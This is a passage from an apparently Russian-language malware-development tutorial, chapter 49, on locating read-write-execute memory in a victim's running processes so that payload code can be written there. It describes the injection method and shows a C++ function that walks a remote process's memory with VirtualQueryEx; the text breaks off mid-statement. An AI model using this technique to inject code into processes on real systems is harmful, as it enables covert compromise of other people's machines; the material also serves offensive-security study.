 \newpage
\subsection{49. трюк разработки вредоносного ПО. Поиск RWX - часть 2. Трюки исследования целевого процесса. Простой пример на C/C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![вредоносное ПО](./images/119/2024-05-02_13-59.png){width="80%"}      

В одном из моих [предыдущих постов](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html) я описал метод инъекции в процесс, используя логику поиска RWX-памяти. Сегодня я применю ту же логику, но с новым трюком.    

Как вы помните, метод прост: мы перечисляем запущенные целевые процессы на системе жертвы, сканируем их выделенные блоки памяти, чтобы определить, какие из них защищены RWX, а затем записываем наш полезный код в этот блок памяти.    

### практический пример

Сегодня я использую немного другой трюк. Допустим, мы ищем конкретный процесс на машине жертвы (для инъекции или другой цели).     

Давайте использовать отдельную функцию для поиска RWX-области памяти в процессе жертвы, например такую:    

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // получаем информацию о памяти удалённого процесса
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // ищем RWX-области памяти, которые не связаны с образом
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("найдена RWX-память: 0x%x - %#7llu байт регион\n", 
```
